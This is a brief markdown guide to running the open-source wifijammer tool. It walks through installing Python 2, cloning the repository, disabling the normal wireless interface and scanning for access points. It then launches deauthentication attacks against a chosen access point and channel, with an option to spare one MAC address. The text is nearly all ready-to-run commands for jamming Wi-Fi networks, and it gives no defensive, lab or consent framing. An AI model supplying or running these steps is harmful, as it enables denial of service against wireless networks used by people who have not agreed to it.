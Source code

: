 # Source: https://github.com/DanMcInerney/wifijammer

## Install python2.7
<code>
sudo apt install python2
</code>
## Clone Repo
<code>
git clone https://github.com/DanMcInerney/wifijammer
cd wifijammer
</code>
## Connect supported wifi device

## Deactivate normal interface

### a) Disable current wifi
Go into Ubuntu WIFI-Settings. Click on the network you are in and uncheck "Connect automatically..."

Take Wifi into Airplane mode

Take Wifi back into normal mode

### b) Take normal iface down
List interfaces with:
<code>
ip a
</code>

Take down normal interface:
<code>
ifconfig wlp0 down
</code>
## List Accesspoints
<code>
sudo iwlist wlx9cefd5fbf646 scanning | egrep 'Cell |Encryption|Quality|Last beacon|ESSID|Channel'
</code>
## Start deauthenticating with

<code>
sudo python2.7 wifijammer -a Address-from-List -c Channel-from-List --world
</code>

## Optionally: Skip an MAC Address from being jammed
Add option:
-d -s MAC-Address
